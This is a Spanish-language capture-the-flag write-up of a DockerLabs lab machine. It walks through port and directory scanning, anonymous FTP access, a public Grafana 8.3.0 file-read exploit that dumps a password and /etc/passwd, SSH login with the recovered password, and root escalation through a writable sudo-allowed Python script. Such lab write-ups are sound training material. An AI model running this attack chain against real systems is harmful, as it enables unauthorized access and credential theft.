



[[Writeups]]
#Writeups #Easy #DockerLabs


Comenzamos con un escaneo general de nmap:

```bash
❯ sudo nmap -sS -p- -Pn --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-28 12:22 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000060s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.23 seconds
```

Vemos que hay tres servicios así que vamos a escanearlos mas profundamente:

```bash
❯ sudo nmap -p21,22,80,3000 -sCV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-28 12:39 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000027s latency).

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    1 0        0              26 Mar 29 09:28 mantenimiento [NSE: writeable]
22/tcp   open  ssh     OpenSSH 9.6p1 Debian 4 (protocol 2.0)
| ssh-hostkey: 
|   256 77:0b:34:36:87:0d:38:64:58:c0:6f:4e:cd:7a:3a:99 (ECDSA)
|_  256 1e:c6:b2:91:56:32:50:a5:03:45:f3:f7:32:ca:7b:d6 (ED25519)
80/tcp   open  http    Apache httpd 2.4.58 ((Debian))
|_http-server-header: Apache/2.4.58 (Debian)
|_http-title: Apache2 Debian Default Page: It works
3000/tcp open  ppp?
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Content-Type: text/html; charset=utf-8
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2Fnice%2520ports%252C%2FTri%256Eity.txt%252ebak; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Tue, 28 May 2024 10:39:53 GMT
|     Content-Length: 29
|     href="/login">Found</a>.
|   GenericLines, Help, Kerberos, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Content-Type: text/html; charset=utf-8
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2F; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Tue, 28 May 2024 10:39:22 GMT
|     Content-Length: 29
|     href="/login">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2F; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Tue, 28 May 2024 10:39:27 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.94SVN%I=7%D=5/28%Time=6655B45A%P=x86_64-pc-linux-gnu%r
SF:(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x
SF:20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Ba
SF:d\x20Request")%r(GetRequest,174,"HTTP/1\.0\x20302\x20Found\r\nCache-Con
SF:trol:\x20no-cache\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nEx
SF:pires:\x20-1\r\nLocation:\x20/login\r\nPragma:\x20no-cache\r\nSet-Cooki
SF:e:\x20redirect_to=%2F;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nX-Con
SF:tent-Type-Options:\x20nosniff\r\nX-Frame-Options:\x20deny\r\nX-Xss-Prot
SF:ection:\x201;\x20mode=block\r\nDate:\x20Tue,\x2028\x20May\x202024\x2010
SF::39:22\x20GMT\r\nContent-Length:\x2029\r\n\r\n<a\x20href=\"/login\">Fou
SF:nd</a>\.\n\n")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent
SF:-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n4
SF:00\x20Bad\x20Request")%r(HTTPOptions,12E,"HTTP/1\.0\x20302\x20Found\r\n
SF:Cache-Control:\x20no-cache\r\nExpires:\x20-1\r\nLocation:\x20/login\r\n
SF:Pragma:\x20no-cache\r\nSet-Cookie:\x20redirect_to=%2F;\x20Path=/;\x20Ht
SF:tpOnly;\x20SameSite=Lax\r\nX-Content-Type-Options:\x20nosniff\r\nX-Fram
SF:e-Options:\x20deny\r\nX-Xss-Protection:\x201;\x20mode=block\r\nDate:\x2
SF:0Tue,\x2028\x20May\x202024\x2010:39:27\x20GMT\r\nContent-Length:\x200\r
SF:\n\r\n")%r(RTSPRequest,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConten
SF:t-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n
SF:400\x20Bad\x20Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20
SF:Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:
SF:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTT
SF:P/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20char
SF:set=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSS
SF:essionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20te
SF:xt/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x2
SF:0Request")%r(Kerberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent
SF:-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n4
SF:00\x20Bad\x20Request")%r(FourOhFourRequest,1A1,"HTTP/1\.0\x20302\x20Fou
SF:nd\r\nCache-Control:\x20no-cache\r\nContent-Type:\x20text/html;\x20char
SF:set=utf-8\r\nExpires:\x20-1\r\nLocation:\x20/login\r\nPragma:\x20no-cac
SF:he\r\nSet-Cookie:\x20redirect_to=%2Fnice%2520ports%252C%2FTri%256Eity\.
SF:txt%252ebak;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nX-Content-Type-
SF:Options:\x20nosniff\r\nX-Frame-Options:\x20deny\r\nX-Xss-Protection:\x2
SF:01;\x20mode=block\r\nDate:\x20Tue,\x2028\x20May\x202024\x2010:39:53\x20
SF:GMT\r\nContent-Length:\x2029\r\n\r\n<a\x20href=\"/login\">Found</a>\.\n
SF:\n");
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 88.47 seconds
```

Antes de ir a la web del puerto 80 voy a hacer una búsqueda de directorios con gobuster:

```bash
❯ gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt,xml
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt,xml
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 10701]
/maintenance.html     (Status: 200) [Size: 63]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1102795 / 1102800 (100.00%)
===============================================================
Finished
===============================================================
```

Encontramos lo que parece ser un directorio de mantenimiento, vamos a ver que hay:


Tenemos una ruta con lo que parece una contraseña en un txt, nos la guardamos para cuando podamos acceder al sistema:

No encuentro nada mas así que voy al ftp y me logeo como anonymous ya que en el escaneo previo de nmap nos indicaba que se podía logear así:

```bash
❯ ftp 172.17.0.2
Connected to 172.17.0.2.
220 (vsFTPd 3.0.3)
Name (172.17.0.2:dached): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 

```

Indagando por los directorios me encuentro un archivo de contraseña:

```bash
ftp> ls
229 Entering Extended Passive Mode (|||54566|)
150 Here comes the directory listing.
drwxrwxrwx    1 0        0              26 Mar 29 09:28 mantenimiento
226 Directory send OK.
ftp> cd mantenimiento
250 Directory successfully changed.
ftp> ls -la
229 Entering Extended Passive Mode (|||34346|)
150 Here comes the directory listing.
drwxrwxrwx    1 0        0              26 Mar 29 09:28 .
drwxr-xr-x    1 0        104            26 Mar 29 09:28 ..
-rwxrwxrwx    1 0        0            2021 Mar 29 09:26 database.kdbx
226 Directory send OK.
ftp> get database.kdbx
local: database.kdbx remote: database.kdbx
229 Entering Extended Passive Mode (|||62650|)
150 Opening BINARY mode data connection for database.kdbx (2021 bytes).
100% |*************************************************|  2021       33.81 MiB/s    00:00 ETA
226 Transfer complete.
2021 bytes received in 00:00 (8.76 MiB/s)
```

Lo intento abrir con keepass pero pide contraseña así que busco la web del puerto 3000:



Me fijo en el footer de la web y veo que es la version v8.3.0 de grafana, vamos a exploit db a ver si hay algun CVE:



Tenemos un exploit que nos permite leer archivos, con esto y la pass.tx que hemos encontrado en el directorio de **/maintenance** puede que consigamos leer esa contraseña.

Me descargo el exploit y lo ejecuto:

```bash
❯ python3 50581.py -H http://172.17.0.2:3000

Read file > /tmp/pass.txt
t9sH76gpQ82UFeZ3GXZS

Read file > /etc/passwd   
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
ftp:x:101:104:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
grafana:x:103:105::/usr/share/grafana:/bin/false
freddy:x:1000:1000::/home/freddy:/bin/bash

Read file > 
```

Consigo leer la pass.txt y de paso leo el passwd para ver los usuarios en el sistema, vamos a intentar logearnos por ssh como freddy y el pass encontrado:

```bash
❯ ssh freddy@172.17.0.2
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:vI77ttzFmsp8NiCsxBpeZipRCZ9MdfkeMJojz7qMiTw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
freddy@172.17.0.2's password: 
Linux ed54e391cd3f 6.5.0-13parrot1-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.5.13-1parrot1 (2023-12-19) x86_64

The programs included with the Kali GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Kali GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
┏━(Message from Kali developers)
┃
┃ This is a minimal installation of Kali Linux, you likely
┃ want to install supplementary tools. Learn how:
┃ ⇒ https://www.kali.org/docs/troubleshooting/common-minimum-setup/
┃
┗━(Run: “touch ~/.hushlogin” to hide this message)
┌──(freddy㉿ed54e391cd3f)-[~]
└─$ 

```

Obtenemos acceso, indagando no veo nada así que me pongo a enumerar los permisos sudo:

```bash
┌──(freddy㉿ed54e391cd3f)-[~]
└─$ sudo -l
Matching Defaults entries for freddy on ed54e391cd3f:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User freddy may run the following commands on ed54e391cd3f:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/maintenance.py

┌──(freddy㉿ed54e391cd3f)-[~]
└─$ ls -la /opt/
total 4
drwxrwxrwx 1 root   root    28 Mar 29 09:29 .
drwxr-xr-x 1 root   root   220 May 28 10:21 ..
-rw-r--r-- 1 freddy freddy  35 Mar 29 09:29 maintenance.py
```

Tenemos permisos Sudo para el maintenance.py ademas de permisos de lectura y escritura, con esto buscamos en gtfobins el comando para sudo de python y lo ponemos dentro del archivo con un nano borrando el código que había:



Guardamos, ejecutamos como sudo el binario de python con la ruta del archivo al que tenemos permisos y vemos si da resultados:


Con esto ya hemos obtenido root.